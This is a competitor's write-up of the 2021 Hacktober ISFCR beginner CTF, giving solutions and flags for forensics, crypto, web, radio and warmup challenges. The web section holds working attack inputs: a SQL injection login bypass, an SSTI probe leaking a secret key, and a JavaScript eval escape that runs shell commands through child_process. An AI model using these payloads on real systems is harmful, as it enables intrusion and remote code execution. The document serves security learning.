

Hacktober ISFCR CTF
=============

The Hacktober ISFCR CTF was a beginner-friendly individual CTF that started on 23rd October 2021 and was 36 hours long. It was very fun to be part of it and I appreciate the efforts of the organizers and problemsetters.

I ranked #2 in the event, missing the #1 spot by a little over hundred points. Here's my writeup for the challenges I managed to solve.


## Steganography and Forensics

### All Blue - 150pts (500pts)

**Challenge**

```
Dive deep, go beyond the blues
```

**Files**

```
image.jpg
```

**Solution**

The very first thing you do when you are presented with an image challenge is to use `strings` to see if you find anything useful. In this case, we do find the flag at the bottom of the output.

**Flag:** `CTF{FE3L1NG_4_L1TTL3_BLUE}`


### zipBomb - 191pts (500pts)

**Challenge**

```
Careful! This zipBomb has layer upon layers of explosive power, dig into the very last layer and identify the flag to defuse it.
```

**Files**

```
img0.zip
```

**Solution**

As the name of the challenge suggests, the solution is related to zip files - multiple of them! Let's try `unzip`ing the image `img0.png` that we got.

`unzip img0.png`

We are prompted to enter the password. Hmm...? So, we're probably missing something at this point because we didn't come across anything that could be a password. Looking at exif data of the image using `exiftool`, we notice a weird hex string as the `Author` data. Trying that string as the password, we are able to extract another image. I repeat the procedure with the new image but end up with another new image. There could potentially be hundreds of images before we get the flag, so I decided to automate the process by writing a simple script.

```python
import os
import sys

index = 0

while True:
    os.system(f'xdg-open img{index}.png')
    password = os.popen(f'exiftool img{index}.png | grep "Author" | python3 -c "print(input().split()[-1].strip())"').read().strip()
    os.system(f'unzip -P {password} img{index}.png')

    index += 1

    if index > 10:
        break

while True:
    pass
```

I set a limit of `index > 10` just to see if there are actually many images but there seem to be only 8. The last image gives us the flag (the flag is incomplete as can be seen. I guessed the last part. The problemsetters addressed the issue later).

 

**Flag:** `CTF{ZipB0mb_d3fus3d}`

### Corrupted - 329pts (500pts)

**Challenge**

```
Came Across This Weird File.. Seems Gibbersh. Can you make Sense Of it?
```

**Files**

```
corrupted
```

**Solution**

I got first blood on the challenge!

The name of the challenge makes it obvious that we have to deal with some sort of corrupted file - possibly file header changes. Let's look at the file header.

```bash
┌──(arrow㉿arrow)-[~/…/ctf/hacktoberfest-ctf-isfcr-2021/challenges/Corrupted]
└─$ xxd corrupted | head                             
00000000: 8923 4442 0d0a 1a0a 0000 000d 4948 4452  .#DB........IHDR
00000010: 0000 0480 0000 0288 0802 0000 0087 4916  ..............I.
00000020: 5a00 0000 0173 5247 4200 aece 1ce9 0000  Z....sRGB.......
00000030: 0004 6741 4d41 0000 b18f 0bfc 6105 0000  ..gAMA......a...
00000040: 0009 7048 5973 0000 1274 0000 1274 01de  ..pHYs...t...t..
00000050: 661f 7800 0029 4b49 4441 5478 5eed ddbd  f.x..)KIDATx^...
00000060: 8edc 46da 3660 2f5e 6021 60b1 8042 67ab  ..F.6`/^`!`..Bg.
00000070: 4350 e66c 57a1 4285 0a15 3a34 7c02 8a0c  CP.lW.B...:4|...
00000080: 871b 1ad8 44e1 3a73 a8c3 d061 2874 a870  ....D.:s...a(t.p
00000090: bffa a69e 216a baa7 7bf8 537c 866c 5e57  ....!j..{.S|.l^W
```

It's clear that the file header has been tampered as IHDR and IDAT chunks are part of PNG file specification.

We change `8923 4442` to `8950 4e47` and get the PNG file to be display-able again.


**Flag:** `CTF{GET_THE_MAGIC}`


### GEPJ - 379pts (500pts)

**Challenge**

```
somthing's fishy with the jpeg's header... I mean"footer"
```

**Files**

```
gepj.jpeg
```

**Solution**

I noticed that GEPJ is JPEG spelled in reverse and that the challenge mentions the "header" and "footer". I take a look at the contents of the file using a hex editor and notice that the all image data has been reversed. We just have to reverse the data again to obtain the original image.

```python
with open('gepj.jpeg', 'rb') as file:
    content = file.read()

content = content[::-1]
with open('extracted.jpg', 'wb') as file:
    file.write(content)
```


**Flag:** `CTF{s0_y0u_th1nk_y0u_c4n_F0r3nsics}`


### RolleyPolley - 1000pts (1000pts)

**Challenge**

```
Bar is a great music composer
```

**Files**

```
Challenge.wav
```

**Solution**

I got first blood on the challenge!

I played the .wav file and it turned out to be Rick Astley's Never Gonna Give You Up. I listened through completely and noticed that there was a lot of noise somewhere midway of the song. Firing up `sonic-visualiser` and taking a look at the stereogram, we find part of the flag.


When I was listening to the music, I also noticed another voice speaking out the flag right at the beginning. Using noise supression under `Audacity -> Effects -> Noise Reduction`, you can figure out that the first part of the flag: `CTF{l00k_`. The voice also mentions the second part of the flag but we already have it.

I tried doing everything else I could think of to retrieve the third part of the flag but nothing worked. The only thing peculiar was that the strings output gave out two bit.ly links. One was a Rick Roll 4K remastered bait and the other link didn't work.

I couldn't actually solve the third part of the challenge in the way it was intended. However, the problemsetters were using the same containers for all challenges and a quick `nmap` scan on their Linux Shell problems system IPs revealed that there was a website running on them. After going to the site and looking at the comments in HTML, i found the third part `_r1ck_4stl3y`.

**Flag:** `CTF{l00k_0u7_f0r_r1ck_4stl3y}`


## Cryptography

### Chinese Remainder Theorem - 150pts (500pts)

**Challenge**

```
The Chinese Remainder Theorem gives a unique solution to a set of linear congruences if their moduli are coprime.

This means, that given a set of arbitrary integers ai, and pairwise coprime integers ni, such that the following linear congruences hold:

There is a unique solution x ≡ a mod N where N = n1 * n2 * ... * nn.

Given the following set of linear congruences:

x ≡ 2 mod 5 x ≡ 4 mod 19 x ≡ 7 mod 37

Find the integer a such that x ≡ a mod 3515
```

**Solution**

Using any online CRT solver or just knowing the math yourself, the value `a = 2227` can be found to satisfy the equations.

**Flag:** `CTF{2227}`


### RSA Starter - 150pts (500pts)

**Challenge**

```
RSA encryption is modular exponentiation of a message with an exponent e and a modulus N which is normally a product of two primes: N = p * q.

Deduce and use the private key for these parameters to decrypt the cipher text.
```

**Files**

```
RSA_Starter.txt
```

```bash
┌──(arrow㉿arrow)-[~/…/ctf/hacktoberfest-ctf-isfcr-2021/challenges/RSA-Starter]
└─$ cat RSA_Starter.txt 
p =  168036081834741284080890299782743711771518299371621871011171958349208990363321438223824545402804936645118472524079132326223758992041688356705348773449294618111792095410451170444847242912352248995340181045344740175444614299374300799146581840355666782806308512320158078079169409880544017881066188947152413940347

q = 153879326597597067402160602898096399503901307862710442987788240329824646422501472455828983148938572289041016444707643881760626463222657527281709690613500346313249110894532709609222310742752479954545270182285908463786371656961770870777986772987600315507192108037058265495519821280533770507798610200384661941201

e = 65537

c = 19816135684128810685763186833676710087903585669010753703890331964794204590122890846807302143626332885390464667213714850153614694174250721186051555000180380911617275099256536507003498004142856054198495984636422326304765459909410076351819757112654751394571455502500107567107211002268948849812301303091567323725485675555431013467097265148098794222340457610983758655730945944962266560376013847670903822034929026055571823605957654151205633822454779194101796821509411950142256889060585646953244168990722765217712162607036023357134906832437971119806267319460969202789468002882382864777462720623390905221638240177912999144992
```

**Solution**

I got first blood on the challenge!

The challenge was a really simple. We are already given p and q and computing m becomes really easy.

Using [RsaCtfTool.py](https://github.com/Ganapati/RsaCtfTool), the challenge is instantly solvable.

```bash
┌──(arrow㉿arrow)-[~/…/ctf/hacktoberfest-ctf-isfcr-2021/challenges/RSA-Starter]
└─$ rsatool -p 168036081834741284080890299782743711771518299371621871011171958349208990363321438223824545402804936645118472524079132326223758992041688356705348773449294618111792095410451170444847242912352248995340181045344740175444614299374300799146581840355666782806308512320158078079169409880544017881066188947152413940347 -q 153879326597597067402160602898096399503901307862710442987788240329824646422501472455828983148938572289041016444707643881760626463222657527281709690613500346313249110894532709609222310742752479954545270182285908463786371656961770870777986772987600315507192108037058265495519821280533770507798610200384661941201 --uncipher 19816135684128810685763186833676710087903585669010753703890331964794204590122890846807302143626332885390464667213714850153614694174250721186051555000180380911617275099256536507003498004142856054198495984636422326304765459909410076351819757112654751394571455502500107567107211002268948849812301303091567323725485675555431013467097265148098794222340457610983758655730945944962266560376013847670903822034929026055571823605957654151205633822454779194101796821509411950142256889060585646953244168990722765217712162607036023357134906832437971119806267319460969202789468002882382864777462720623390905221638240177912999144992 -e 65537
private argument is not set, the private key will not be displayed, even if recovered.

Results for /tmp/tmpt_8ddej6:

Unciphered data :
HEX : 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004354467b5468405f536163337265375f5468316f6e657d
INT (big endian) : 6448856217787895484459719795118621409856572238102160765
INT (little endian) : 15829805800476255977400391911703303115918674479672058464578118345301015890341013754568141088981730451943274449732209878742465081156459294527524322855467293496246521426281218642677028496639378944214805779065522161831072829049344530901734802831566058976431085272547143173379392603012656726310084861908622598969701903729042183799709566166048989771626887115996519889313953037308966745329177519416622954420534713106506543749005592650687147263143878534734692390716070969509911695053874096396327052326842384569235190893562420145782762159420664188061624209941212523819506423765725751701131789150962432601366994421388882739200
utf-8 : CTF{Th@_Sac3re7_Th1one}
utf-16 : 䌀䙔呻䁨卟捡爳㝥呟ㅨ湯絥
STR : b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00CTF{Th@_Sac3re7_Th1one}'
```

**Flag:** `CTF{Th@_Sac3re7_Th1one}`


### Well, easier - 150pts (500pts)

**Challenge**

```
Play around with the contents of this file
```

**Files**

```
file.txt
```

```bash
┌──(arrow㉿arrow)-[~/…/ctf/hacktoberfest-ctf-isfcr-2021/challenges/Well-easier]
└─$ cat file.txt       
# --... -- ----. - -.--.. - ... -.... ..-. -.--.. --... -.- ----. ..-. -.--.. .... .-.- -.... -- # .-.. - .-.-
```

**Solution**

I got first blood on the challenge!

The contents of the file look like Morse Code but they don't seem to produce sensible output when put through a decoder. After looking up how characters are represented in Morse, I quickly realised that contents of the file were reversed. Reversing them back to normal and converting back to English, we get the flag.

**Flag:** `CTF{M4CH_L1K3_L4ST_T1M3}`


### PyRe0x01 - 191pts (500pts)

**Challenge**

```
Mr Pyke was able to intercept a secret message from the enemy. Meanwhile, Mr. Reddy snuck into enemy lines and came back with some kind of encryption script. They seek your help to reverse the python encryption script and get back the original flag that was fed into the script.
```

**Files**

```
encrypted.txt PyRe0x01.py
```

```bash
┌──(arrow㉿arrow)-[~/…/ctf/hacktoberfest-ctf-isfcr-2021/challenges/PyRe0x01]
└─$ cat encrypted.txt                               
bue|dbrz^bkhn`qfufqtd~
                                                                                            
┌──(arrow㉿arrow)-[~/…/ctf/hacktoberfest-ctf-isfcr-2021/challenges/PyRe0x01]
└─$ cat PyRe0x01.py  
flag = "ctf{`REDACTED`}"
fuzz = ""
count = 0

for i in flag:
    count += 1
    
    if count%2==0:
        fuzz += chr(ord(i)+1)
    else:
        fuzz += chr(ord(i)-1)

print(fuzz)

```

**Solution**

It's pretty easy to understand what the code is doing. We reverse the operations in the encryption code and retrieve the flag.

```python
flag = "bue|dbrz^bkhn`qfufqtd~"
fuzz = ""
count = 0

for i in flag:
    count += 1
    
    if count%2==0:
        fuzz += chr(ord(i)-1)
    else:
        fuzz += chr(ord(i)+1)

print(fuzz)
```

**Flag:** `CTF{easy_algo_reverse}`


### EaZ - 257pts (500pts)

**Challenge**

```
Download and explore this file
```

**Files**

```
Eaz.txt
```

```bash
┌──(arrow㉿arrow)-[~/…/ctf/hacktoberfest-ctf-isfcr-2021/challenges/EaZ]
└─$ cat Eaz.txt 
_.____.. _._._.__ _.___.._ _...._.. _..._.__ __..___. _..._.__ _.._..__ __..__.. _._..... __..____ _..__.._ _._..... _....__. __..____ _..._._. _...__._ _._..... _..__.._ __..___. _...__._ _...__.. _..._.__ _._..... _..__.._ _.._..__ __.._.__ _..__... _....._. 

```

**Solution**

Looks like Morse with `_` instead of `-` but it isn't. After thinking about it for a while, and noticing that each part was 8 characters long, I figured it could be binary for the flag characters. Testing my theory, I do get the flag.

```python
with open('Eaz.txt') as file:
    content = file.read().strip().replace('_', '0').replace('.', '1')

l = content.split()

for i in l:
    i = '0b' + i
    print(chr(int(i, 2)), end='')
```

**Flag:** `CTF{t1tl3_0f_y0ur_f1rst_fl4g}`


### PyRe0x02 - 304pts (500pts)

**Challenge**

```
The enemy has found out that their message was being intercepted and have found a new encryption. But they forgot to secure the remote cloud where the encryption script and message were saved. Mr Pyke and Mr. Reddy excel in cloud security and were able to acquire the two however, seek your help to reverse the cryptographic algorithm
```

**Files**

```
encrypted.txt PyRe0x02.py
```

```bash
┌──(arrow㉿arrow)-[~/…/ctf/hacktoberfest-ctf-isfcr-2021/challenges/PyRe0x02]
└─$ cat encrypted.txt                       
1 38 1 6 4 3 8 1 62 1 5 4 54 1 6 4 1 54 1 34 6 10 3 16 58 3 20 1 50 1 0 4 7 6 1 38 6 6 1 34 3 4 6 4 1 54 6 6 1 54 7 14 
                                                                                            
┌──(arrow㉿arrow)-[~/…/ctf/hacktoberfest-ctf-isfcr-2021/challenges/PyRe0x02]
└─$ cat PyRe0x02.py  
def numToBase(n, b):
    if n==0:
        return[0]

    digits = []
    while n:
        digits = [int(n%b)] + digits
        n //= b

    return ' '.join([ str(_) for _ in digits ])

flag = "ctf{`REDACTED`}"

def main():
    fuzzed = ""
    for i in flag:
        i = ord(i)
        curr = i % 4

        if curr==0:
            fuzzed += numToBase(i+curr, 8)
        elif curr==1:
            fuzzed += numToBase(i+curr, 16)
        elif curr==2:
            fuzzed += numToBase(i+curr, 32)
        elif curr==3:
            fuzzed += numToBase(i+curr, 64)
        fuzzed += ' '
    return fuzzed

print(main())
```

**Solution**

I bruteforced the flag manually by testing characters through the encrypter. Knowing the first part of the flag is `CTF{` and ending `}`, and also that the flag is most likely present as leetspeak, it only took a couple of tries to get the entire flag right.

**Flag:** `CTF{l3ts_in7roDuce_b4ses}`


### PyRe0x03 - 400pts (500pts)

**Challenge**

```
Oops! Found out again! The enemy has now given up on securing their cloud storage, instead they have now introduced random key based encryption algorithm. The key seems to be stored seperately and unreachable to Mr. Pyke and Mr. Reddy, but they did get their hands on the algorithm and the encrypted message. Could you decrypt the message without the random key?
```

**Files**

```
encrypted.txt PyRe0x03.py
```

```bash
┌──(arrow㉿arrow)-[~/…/ctf/hacktoberfest-ctf-isfcr-2021/challenges/PyRe0x03]
└─$ cat encrypted.txt
[(6438, 6234), (7537, 7311), (6627, 6429), (7998, 7746), (6375, 6169), (7415, 7177), (7600, 7376), (7537, 7311), (6560, 6368), (6627, 6429), (3125, 3019), (7415, 7177), (6438, 6234), (3318, 3210), (6170, 5990), (7537, 7311), (6765, 6547), (3318, 3210), (6170, 5990), (7415, 7177), (7147, 6933), (6690, 6494), (8120, 7880)]
                                                                                            
┌──(arrow㉿arrow)-[~/…/ctf/hacktoberfest-ctf-isfcr-2021/challenges/PyRe0x03]
└─$ cat PyRe0x03.py  
import random

flag = "ctf{`REDACTED`}"

key1 = random.randint(1, 10)
key2 = random.randint(6, 15)

flag1 = []
flag2 = []

for curr in flag:
    flag1 += [ord(curr) ^ key1]
    flag2 += [ord(curr) << key2]

print([(_[0]+_[1], _[0]-_[1]) for _ in zip(flag2, flag1)])
```

**Solution**

We could recover both flag1 and flag2 in encrypted form by simple math. Now, in order to decrypt either of the flags (both result in the same flag), we could choose to reverse either operation. I chose XOR because it's simpler I think. Bruteforcing the XOR key, we find our flag.

```python
enc = [(6438, 6234), (7537, 7311), (6627, 6429), (7998, 7746), (6375, 6169), (7415, 7177), (7600, 7376), (7537, 7311), (6560, 6368), (6627, 6429), (3125, 3019), (7415, 7177), (6438, 6234), (3318, 3210), (6170, 5990), (7537, 7311), (6765, 6547), (3318, 3210), (6170, 5990), (7415, 7177), (7147, 6933), (6690, 6494), (8120, 7880)]

for key1 in range(1, 11):
    for value in enc:
        a = value[0]
        b = value[1]
        x = (a + b) // 2
        y = (a - b) // 2
        y ^= key1
        print(chr(y), end = '')
    print()
```

```bash
┌──(arrow㉿arrow)-[~/…/ctf/hacktoberfest-ctf-isfcr-2021/challenges/PyRe0x03]
└─$ python3 main.py                                                                   130 ⨯
gpbfvqpab4vg7[pl7[vjcy
dsa|eursba7ud4Xso4Xui`z
er`}dtsrc`6te5Yrn5Ytha{
bugzcstudg1sb2^ui2^sof|
ctf{brutef0rc3_th3_rng}
`wexaqvwfe3q`0\wk0\qmd~
avdy`pwvgd2pa1]vj1]ple
nykvoxyhk=n>Rye>Rcjp
oxjwn~yxij<~o?Sxd?S~bkq
l{itm}z{ji?}l<P{g<P}ahr
```

**Flag:** `CTF{brutef0rc3_th3_rng}`


### DoubleWork - 462pts (500pts)

**Challenge**

```brainfuck
----------]<-<---<-------<---------->>>>+[<<<-----------,>-------------------,<-,+++++++++++,<-,>>+,----,<<-------------------,>----------,>++++,<-----,----------------,++++++++++++++++++,<++++++++++++++,>++++++++++++++,++,--------------,------,>,-------------,
```

**Solution**

The code looks like Brainfuck but actually is [Reversefuck](https://esolangs.org/wiki/ReverseFuck). Converting Reversefuck to Brainfuck and executing the code, we get a Base64 string.

`Q1RGe04xQ0VfTjFDRX0=`

Decoding it, we retrieve the flag.

**Flag:** `CTF{N1CE_N1CE}`


### Chmod 777 and Ascend - 467pts (500pts)

**Challenge**

```
Cipher-Text: 997771161021238710497116777116105777109101777105115105777116110777111119125777
```

**Solution**

I had no clue about it for a while but looking at the cipher text carefully, you can notice that they are ASCII values of characters of some string with `777` occasionally in the middle.

Seperating the ASCII values, we get:

```
99 777 116 10 212 387 104 97 116 777 116 105 777 109 101 777 105 115 105 777 116 110 777 111 119 125 777
```

Converting to ASCII and looking at printable characters, we retrieve the flag.

**Flag:** `CTF{Whattimeisitnow}`


### LittleWork - 494pts (500pts)

**Challenge**

```
Keyword: 'ThirdChall' CipherText: CTF{v3st_u0q3_e0y_rplL}
```

**Solution**

Looked like some sort of keyed cipher but I couldn't figure out which without using a hint.

`Hint: Bellaso cipher`

Using an online Bellaso cipher decrypter, we retrieve the flag.

**Flag:** `CTF{w3ll_d0n3_f0r_rea1}`

## Web

### css - 252pts (500pts)

**Challenge**

```
Find the admin's password. Flag ---> CTF{admin_password}

https://pesuhackathon-css.chals.io
```

**Solution**

Opening up the website takes us to a login page. The problem name is css but there was nothing relevant in the css file upon checking. Instead, the interesting part was present with the page HTML.

```html
<script type="text/javascript">
        function Verification()
        {
          email = document.getElementById('sample3').value;
          if(email !== 'admin@gmail.com')
          {
            alert('wrong username or password');
            return 0;
          }
          pass = document.getElementById('sample4').value;
          encrypted = Encrypt(pass);
          if(encrypted !== 'e988b1a56f120a5b5324d732dcb8b12f53a134a5')
          {
            alert('wrong username or password');
          }
          else
          {
            alert("Correct password");
          }
          return 0;
        }


        function Encrypt(msg){function rotate_left(n,s){var t4=(n<<s)|(n>>>(32-s));return t4;};function lsb_hex(val){var str='';var i;var vh;var vl;for(i=0;i<=6;i+=2){vh=(val>>>(i*4+4))&0x0f;vl=(val>>>(i*4))&0x0f;str+=vh.toString(16)+vl.toString(16);}return str;};function cvt_hex(val){var str='';var i;var v;for(i=7;i>=0;i--){v=(val>>>(i*4))&0x0f;str+=v.toString(16);}return str;};function Utf8Encode(string){string=string.replace(/\r\n/g,'\n');var utftext='';for(var n=0;n<string.length;n++){var c=string.charCodeAt(n);if(c<128){utftext+=String.fromCharCode(c);}else if((c>127)&&(c<2048)){utftext+=String.fromCharCode((c>>6)|192);utftext+=String.fromCharCode((c&63)|128);}else{utftext+=String.fromCharCode((c>>12)|224);utftext+=String.fromCharCode(((c>>6)&63)|128);utftext+=String.fromCharCode((c&63)|128);}}return utftext;};var blockstart;var i,j;var W=new Array(80);var H0=0x67452301;var H1=0xEFCDAB89;var H2=0x98BADCFE;var H3=0x10325476;var H4=0xC3D2E1F0;var A,B,C,D,E;var temp;msg=Utf8Encode(msg);var msg_len=msg.length;var word_array=new Array();for(i=0;i<msg_len-3;i+=4){j=msg.charCodeAt(i)<<24|msg.charCodeAt(i+1)<<16|msg.charCodeAt(i+2)<<8|msg.charCodeAt(i+3);word_array.push(j);}switch(msg_len % 4){case 0:i=0x080000000;break;case 1:i=msg.charCodeAt(msg_len-1)<<24|0x0800000;break;case 2:i=msg.charCodeAt(msg_len-2)<<24|msg.charCodeAt(msg_len-1)<<16|0x08000;break;case 3:i=msg.charCodeAt(msg_len-3)<<24|msg.charCodeAt(msg_len-2)<<16|msg.charCodeAt(msg_len-1)<<8|0x80;break;}word_array.push(i);while((word_array.length % 16)!=14)word_array.push(0);word_array.push(msg_len>>>29);word_array.push((msg_len<<3)&0x0ffffffff);for(blockstart=0;blockstart<word_array.length;blockstart+=16){for(i=0;i<16;i++)W[i]=word_array[blockstart+i];for(i=16;i<=79;i++)W[i]=rotate_left(W[i-3]^W[i-8]^W[i-14]^W[i-16],1);A=H0;B=H1;C=H2;D=H3;E=H4;for(i=0;i<=19;i++){temp=(rotate_left(A,5)+((B&C)|(~B&D))+E+W[i]+0x5A827999)&0x0ffffffff;E=D;D=C;C=rotate_left(B,30);B=A;A=temp;}for(i=20;i<=39;i++){temp=(rotate_left(A,5)+(B^C^D)+E+W[i]+0x6ED9EBA1)&0x0ffffffff;E=D;D=C;C=rotate_left(B,30);B=A;A=temp;}for(i=40;i<=59;i++){temp=(rotate_left(A,5)+((B&C)|(B&D)|(C&D))+E+W[i]+0x8F1BBCDC)&0x0ffffffff;E=D;D=C;C=rotate_left(B,30);B=A;A=temp;}for(i=60;i<=79;i++){temp=(rotate_left(A,5)+(B^C^D)+E+W[i]+0xCA62C1D6)&0x0ffffffff;E=D;D=C;C=rotate_left(B,30);B=A;A=temp;}H0=(H0+A)&0x0ffffffff;H1=(H1+B)&0x0ffffffff;H2=(H2+C)&0x0ffffffff;H3=(H3+D)&0x0ffffffff;H4=(H4+E)&0x0ffffffff;}var temp=cvt_hex(H0)+cvt_hex(H1)+cvt_hex(H2)+cvt_hex(H3)+cvt_hex(H4);return temp.toLowerCase();}
    </script>
```

From previous challenges that I've practiced on, it was instantly apparent that the script was using SHA-1 to hash the password provided and comparing the hashes. It was relatively simple to break the hash using an online SHA-1 decrypter.

**Flag:** `CTF{ad@12345}`


### injection1 - 327pts (500pts)

**Challenge**

```
Login if u can :) .

https://pesuhackathon-injection1.chals.io
```

**Solution**

I got first blood on the challenge!

As there was no context given in the problem, I just tried checking if a simple SQL injection worked.

```
Username: ' or 1=1--
Password: qwerty
```

I get a "Wrong Password" message back. I try the injection in the password string this time.

```
Username: qwerty
Password: ' or 1=1--
```

I get a response saying:

```
Correct Password , Here is your reward = CTF{s9l_1s_t00_5z}
```

**Flag:** `CTF{s9l_1s_t00_5z}`


### SuperStore - 345pts (500pts)

**Challenge**

```
Buy the phone as an admin with balance of 1000, the developer said he will store these values safely but where are they?

Link: https://superstore-eight.vercel.app/
```

**Solution**

Visiting the website, we get:


The "Buy Now" part was clickable. Let's click on it!


Okay, so probably some cookie manipulation? This became obvious after looking at the cookies storage.


I changed balance to 1000 and admin to true, clicked "Buy Now" again, and the flag made itself visible.


You could also solve the challenge by looking at the React App.js sourcecode.


**Flag:** `CTF{st0re_th3m_4ll}`


### SecureAlgo - 462pts (500pts)

**Challenge**

```
Making our own cryptographic functions sounds super fun.

http://20.115.29.15:3000/
```

**Solution**

I got first blood on the challenge!

At the time of writing this writeup, the server has been taken down so there is no way for me to retrieve the flag again :(

There was some JSFuck code provided that performed some sort of encryption. Feeding it into node.js, I got some representation of the code in Javascript, which in pseudocode looks like:

```
flag = 'CTF{some_random_flag}'
flag = base64_encode(flag)
for each character in flag:
    character.ascii = character.ascii + 3
flag = base64_encode(flag)
flag = reverse(flag)
output(flag)
```

It's obvious how to reverse the steps - reverse, base64 decode, subtract 3 from ascii values for each character, base64 decode again.

**Flag:** `CTF{......................}`


### Sus Welcome Page - 469pts (500pts)

**Challenge**

```
Hmm..Seems like a Normal Welcome Page OR.. is it??

Author:-S4mS3pi0l#5978

https://pesuhackathon-sus-welcome.chals.io/
```

**Solution**

I burnt a lot of time on this challenge. I figured that you could inject HTML tags (including script tags to run javascript) after a while but the server just returned "HELLO" following my the injected code. After that, everything is just run client side so there's no I could find the flag this way.




I didn't figure out how to solve the challenge until the last few hours. I used a hint costing 100 points.

`Hint: What are Templates..HMMM`

_That_ was the answer. After searching for what Templates are, I learnt about Server Side Template Injection Attacks. On an older CTF writeup, I saw `{{config}}` being used as a SSTI and I tried checking if it works. It did!

```
HELLO <Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'CTF{e45y_testb00k_ssT1}', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}> !!
```

**Flag:** `CTF{e45y_testb00k_ssT1}`


### JSCalculator - 500pts (500pts)

**Challenge**

```
Introducing JSCalculator-As-A-Service, execute complex math queries using the full power of JavaScript. All of this using a simple POST request as JSON in format.

Example : {query:"Math.log(10000)"}

Use 0.cloud.chals.io:17547 for POST requests

P.S Hackerman said that a sensitive file 'flag.txt' exists ...

Author: VikedJoker

POST request to 0.cloud.chals.io:17547
```

**Solution**

I got first blood on the challenge!

The query parameter seemed like it was using something some sort of `eval` statement in Javascript. The theory could be tested by posting an eval statement like `eval(21 + 21)` and checking if 42 was the result. It indeed was... So, I started looking up on how you could use eval's to get access to shell commands as the challenge mentions a "flag.txt" exists. After a while, I came across a payload to do exactly this.

```json
{
    "query": "(delete(this.constructor.constructor),delete(this.constructor),this.constructor.constructor('return process')().mainModule.require('child_process').execSync('cat flag.txt').toString())"
}
```

```json
{
    "result": "CTF{RC3_is_v3ry_uns4fe_h3re}\n"
}
```

**Flag:** `CTF{RC3_is_v3ry_uns4fe_h3re}`

## Radio

### Radio 1 - 444pts (500pts)

**Challenge**

```
The ISS does HAM?
```

**Files**

```
au1.wav
```

**Solution**

I didn't know how to solve this for a while. After searching about ISS and HAM, I came across SSTV and related stuff. It's a way you can use audio to communicate images. Using an andriod application called Robot36 that does exactly that, I converted the audio into an image. The image contained the flag.


**Flag:** `CTF{d1s_Tv_50_N015Y_616c6c6f6e7379}`

## Warmup

### Discord - 50pts (50pts)

**Challenge**

```
Find flag in ISFCR Discord Server make sure you read rules and regulations
```

**Solution**

There was a flag present in the Discord Rules Announcement.

**Flag:** `CTF{w3lc0me_t0_ISFCR_club}`

### Linux - 50pts (50pts)

**Challenge**

```
Looks like you need this credentials for all the linux challenges ssh into the first system and then get the first flag hacker:hacker123 port 6000

20.115.29.15
```

**Solution**

`ssh hacker@20.115.29.15 -p 6000`

Enter the password when prompted, and you get the flag.

**Flag:** `CTF{r0s3s_4r3_r3d_sh3lls_ar3_gr33n}`

### Netcat - 50pts (50pts)

**Challenge**

```
netcat (often abbreviated to nc) is a computer networking utility for reading from and writing to network connections using TCP or UDP.

netcat to ip : 6001 to get the flag

20.115.29.15
```

**Solution**

`nc 20.115.29.15:6001`

**Flag:** `CTF{c4t5_s4y_m3oooo}`

### Web - 50pts (50pts)

**Challenge**

```
A Usual Web Pentesting Challenge
```

**Solution**

The source code for the site:

```
<h1>Welcome to HACKTOBER CYBERSECURITY CTF </h1>
<! -- NO ROBOTS ALLOWED HERE --> 
```

Checking `/robots.txt`

```
User-Agent: *
Disallow: /fl4g_f0r_n00bs.html
Allow: /
```

Checking `/fl4g_f0r_n00bs.html`

```
CTF{r0b0ts_ar3_d0p3}
```

**Flag:** `CTF{r0b0ts_ar3_d0p3}`

## Reversing

